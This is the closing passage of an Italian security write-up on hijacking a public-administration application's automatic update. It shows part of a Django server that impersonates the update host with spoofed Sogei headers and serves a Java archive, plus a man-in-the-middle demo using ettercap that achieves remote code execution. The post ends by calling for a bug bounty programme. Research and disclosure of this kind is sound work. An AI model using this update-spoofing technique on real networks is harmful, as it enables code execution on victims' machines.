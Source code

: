 ```python
        for y in ["Content-Length", "Connection", "Keep-Alive", "Content-Type"]:
            if y in orig_headers:
                del(orig_headers[y])
        for x, k in orig_headers.items():
            resp[x] = k
    else:
        print("skipping orig 404 headers")
        resp.status_code = 200
        resp["X-Powered-By"] = "Sogei S.p.A."
    if path in to_subst.keys():
        print(path, "last modified changed")
        resp["Last-Modified"] = "Wed, 20 Dec 2021 08:28:00 GMT"
    

    if resp.status_code != 404:
        resp["Content-Type"] = "application/java-archive"
    return resp


```

e questo quello che gestisce la route (sì lo so potevo usare flask al posto di django ma vabbè)

```python
from django.urls import re_path
from .views import interceptAndModify
urlpatterns = [
    re_path(r'^(?P<path>.*)$', interceptAndModify),
]
```

## Demo time!
Finalmente posso dimostrare come, usando ettercap, da un pc connesso alla stessa rete della vittima, si possa fare un MiTM e, da questo, arrivare ad eseguire codice  remoto (in questo caso aprire calc.exe) quando la vittima apre il programma (e lascia che l'aggiornamento automatico venga completato)

<div style="width: 100%; height: 0px; position: relative; padding-bottom: 56.250%;"><iframe src="https://streamable.com/e/qrczq2" frameborder="0" width="100%" height="100%" allowfullscreen style="width: 100%; height: 100%; position: absolute;"></iframe></div>

## Conclusioni

Pur quanto fosse molto semplice accorgersi del bug, lo sviluppo dell'exploit non è stato altrettanto facile. Detto questo, non sarebbe male se in Italia fosse istituito un programma di bug bounty per gli applicativi della PA, cosicché falle di sicurezza come quella presentata in questo post, verrebbero segnalate e sistemate più velocemente e, soprattutto, non utilizzate da malintenzionati.

Al momento ci sono delle linee guida sulla responsible disclosure per alcuni applicativi come PagoPA, ma non vengono offerte ricompense a chi segnala problemi di sicurezza, il che non incoraggia appassionati ed esperti a spendere del tempo alla ricerca di problemi. Qui un esempio di cosa ha portato l'iniziativa [Hack The Pentagon](https://www.hackerone.com/hack-the-pentagon): 
